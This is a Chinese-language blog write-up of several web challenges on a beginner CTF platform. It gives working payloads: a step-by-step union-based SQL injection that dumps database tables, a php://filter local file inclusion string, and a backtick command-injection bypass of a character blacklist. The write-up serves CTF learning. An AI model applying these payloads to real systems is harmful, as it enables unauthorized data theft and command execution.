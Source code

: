 ```yaml
---
layout: post
title: "HackMeCTF-web部分wp"
tags: [blog]
author: wqpw
---
```


平台网址：[https://hackme.inndy.tw/](https://hackme.inndy.tw/) 介绍说`This is a platform for CTF beginner! Enjoy your CTF :)`，随便玩玩~

### hide and seek

这题啊，老经典了，很多CTF平台（比如南京邮电）web的第一个题都是这种，具体就不说了。

### guestbook

题目提示说用sqlmap，但这有什么意思呢？想日站首先就要学sql，而且网上各种资料多如牛毛。首先发送个新的post，然后在主页源代码里看到`?mod=read&id=124`，用`and 1=1`和`and 1=2`简单测试可以发现id存在数字型sql注入，这里最简单的方法就是union注入。

大概流程：

```sql
?mod=read&id=-1 order by 4 正常
?mod=read&id=-1 order by 5 错误，说明后端sql查询有4个列
?mod=read&id=-1 union select 1,2,3,4 得到输出点2,3,4。注意这里把id改成-1(不存在的id)是为了让union之前的结果为空集，这样我们想要的东西就顶上去了。
?mod=read&id=-1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()
然后得到flag表的列名
?mod=read&id=-1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='flag'
得到长得很奇怪的flag
?mod=read&id=-1 union select 1,2,3,group_concat(flag) from flag
```

### LFI

提示了LFI(Local File Inclusion 本地文件包含), 和php://filter伪协议，可以参考[这个](https://xz.aliyun.com/t/5535)

最后利用`?page=php://filter/read=convert.base64-encode/resource=文件路径`就可以得到flag。

### homepage

提示看主页代码，直接秒了。一种很常见的网站彩蛋，百度也有（你在电脑前看这段文字...）。

### ping

题目给了源代码，要考我们远程命令执行(RCE)。
限制了长度和一堆特殊符号，乍一看比较难受，不过反引号没过滤而且把标准错误重定向到了标准输出，所以&#x60;tail fla*&#x60;秒了（随便换个没在黑名单里可以读文件的命令，用通配符绕过flag，然后ping会报错）。

当然这种题普遍有很多姿势，有兴趣可以自己研究研究。
可以参考[Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection).
